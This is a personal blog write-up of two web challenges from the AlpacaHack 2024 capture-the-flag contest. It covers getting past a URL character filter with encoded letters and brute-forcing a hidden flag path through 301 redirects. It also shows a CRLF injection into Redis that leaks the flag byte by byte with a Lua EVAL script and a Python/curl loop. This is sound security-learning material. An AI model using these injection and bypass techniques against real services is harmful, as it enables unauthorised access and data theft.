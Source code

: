 ```yaml
---
title: "AlpacaHack Round 7 (Web) 2024"
date: 2024-12-02
description: "Finding + bypass hidden path, data manipulation in Redis"
draft: false
author: "hsw"
type: "post"
tags: [web]
categories: [Write-ups]
cover: 'https://alpacahack.com/ogp-square.png'
translationKey: 'media'
stage: 'budding'
toc: true
---
```



## My certificate
This is first time i tried AlpacaHack! That was nice individual CTF, which is only operating in 6 hours (i only solved one chall TvT!)
![Certificate](/commons/ctfs/alpacahack/alpaca_cert.png)

## Treasure Hunt (116pts, 30th solve/71 solves)

Go arounds, there are nothing special till the dockerfile, the flag path is obfuscated:
### Dockerfile

```Dockerfile
FROM node:22.11.0

WORKDIR /app

COPY public public

# Create flag.txt
RUN echo 'Alpaca{REDACTED}' > ./flag.txt

# Move flag.txt to $FLAG_PATH
RUN FLAG_PATH=./public/$(md5sum flag.txt | cut -c-32 | fold -w1 | paste -sd /)/f/l/a/g/./t/x/t \
    && mkdir -p $(dirname $FLAG_PATH) \
    && mv flag.txt $FLAG_PATH

COPY package.json package-lock.json ./
RUN npm install

COPY index.js .

USER 404:404
CMD node index.js

```

Casually i put it on ChatGPT for analyzing it: 

`md5sum flag.txt | cut -c-32`: Computes the MD5 hash of flag.txt and extracts the first 32 characters (full MD5 hash).

`fold -w1 | paste -sd /`: Splits the MD5 hash into individual characters and joins them with /, creating a deeply nested path.

    Example: If the MD5 hash is abcdef123456..., the resulting path is ./public/a/b/c/d/e/f/1/2/3/4/5/6/....

FLAG_PATH=...: Appends /f/l/a/g/./t/x/t to this path, creating a final obfuscated location for the file.

So with this, i was instantly know that we should brute force the path to get the flag, but how to do it? Firstly, i use hand to test all cases and what different. Take a look at index.js:

### index.js

```js
import express from "express";

...

const app = express();

app.use((req, res, next) => {
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
  }
  next();
});

...

```

This sanitize the input, if have any character f,l,a,g then send the badURL for this.

![](/commons/ctfs/alpacahack/alpaca1.png)

But the different is when you type correct directory on the server, the "/" automatically added in the end of URL:

![](/commons/ctfs/alpacahack/alpaca2.png)
![](/commons/ctfs/alpacahack/alpaca3.png)

You can see that even with the same response, if the directory exist, the URL changed BUT we dont spend all day to do this repeatly. Cause we cant pass "f,l,a,g" in the URL, so i use URL encode to bypass this

Then i tried BurpSuite intruder to bruteforce all URL encoded ascii and digits:

![](/commons/ctfs/alpacahack/alpaca4.png)

The key is you get the status code ``301 (Redirect)`` if the path exists (even the response is still the same)

![](/commons/ctfs/alpacahack/alpaca5.png)

> %34 is exist (4)

So i use chatgpt for a python script to do this sequence, but seems like the python request library cant recognize the `301 (Redirect)` status code, so i solve this by bruteforce with BurpSuite repeatly, spends me around 30 minutes to get the flag

![](/commons/ctfs/alpacahack/alpaca6.png)

> Flag: Alpaca{alpacapacapacakoshitantan}

## Alpaca Pool (Upsolve) (146pts, 42 solves) 

Go arounds then we found that flag is stored as a key in the redis server:

### db.js

```js
export async function init(flag) {
    const socket = await connect();

    let message = '';
    for (const animal of ANIMALS) {
        const votes = animal === 'alpaca' ? 10000 : Math.random() * 100 | 0;
        message += `SET ${animal} ${votes}\r\n`;
    }

    message += `SET flag ${flag}\r\n`; // please exfiltrate this

    await send(socket, message);
    socket.destroy();
}
```
### index.js 

`init()` is called instanly if the app running:

```js
await init(FLAG); // initialize Redis
app.listen(PORT, () => {
    console.log(`server listening on ${PORT}`);
});
```

So our mission is exfiltrate the flag, since we have only sink:

```js
app.post('/vote', async (req, res) => {
    let animal = req.body.animal || 'alpaca';

    // animal must be a string
    animal = animal + '';
    // no injection, please
    animal = animal.replace('\r', '').replace('\n', '');

    try {
        return res.json({
            [animal]: await vote(animal)
        });
    } catch {
        return res.json({ error: 'something wrong' });
    }
});
```
While solving this chall while the CTF is running, i know that we have to bypass the `replace()` function, unfortunately i tried `\\rr` so after sanitize it suppose to be `\r` but not works. Also tried CLRF %0D%0A but it still close. After the event ended, i know that `replace()` only removes the first occurrence :((

![](/commons/ctfs/alpacahack/alpaca7.png)

What we got in server side:

![](/commons/ctfs/alpacahack/alpaca8.png)

### db.js

```js

...
    return parseInt(reply.match(/:(\d+)/)[1], 10); // the format of response is like `:23`, so this extracts only the number 
...
...
let result = {};
    for (const [index, match] of Object.entries([...reply.matchAll(/\$\d+\r\n(\d+)/g)])) {
        result[ANIMALS[index]] = parseInt(match[1], 10);
    }
...

```

So, we cant get a return flag string, what we need to do is used [EVAL](https://redis.io/docs/latest/commands/eval/) function to execute a Lua script that leak the flag byte-by-byte

Our lua script to achieve the first byte of flag: 
```lua
EVAL "local flag=redis.call('GET','flag'); local flagByte=string.byte(flag,1); redis.call('SET','dog',flagByte)"
```



![](/commons/ctfs/alpacahack/alpaca9.png)


```python
import subprocess
import re
flag = ""
for index in range (1, 30):
    cmd = (
        'curl -X POST http://localhost:3000/vote -d '
        f'"animal=%0D%0Adog%0D%0AEVAL%20\\"local%20flag=redis.call(\'GET\',\'flag\');'
        f'local%20flagByte=string.byte(flag,{index});redis.call(\'SET\',\'dog\',flagByte)\\"%200"'  # the last %200 that no key passed in script
    )
    result = subprocess.run(cmd, shell=True, capture_output=True, text=True)
    match = re.search(r':(\d+)', result.stdout)    
    byte = int(match.group(1))
    ascii = chr(byte-1)
    flag += ascii
    print(flag)

```
Then change the host to our instance, we got the flag:

![](/commons/ctfs/alpacahack/alpaca10.png)
